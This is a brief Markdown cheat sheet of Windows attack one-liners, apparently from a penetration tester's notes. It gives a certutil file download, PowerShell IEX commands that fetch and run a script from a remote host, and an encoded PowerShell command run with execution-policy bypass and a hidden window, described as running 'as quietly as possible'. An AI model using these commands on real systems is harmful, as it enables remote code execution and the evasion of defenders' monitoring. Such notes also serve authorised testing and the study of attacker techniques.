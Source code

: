 # DOS commands

## download file from http
```
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip`
```

# powershell commands

## download and execute script
```
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')"
IEX(New-Object Net.WebClient).downloadString('http://192.168.69.69/script.ps1')
```

## encoded command nop bypass hidden
## execute encoded command as quietly as possible
```
powershell.exe -nop -exec bypass -w hidden -enc BASE64STR
```
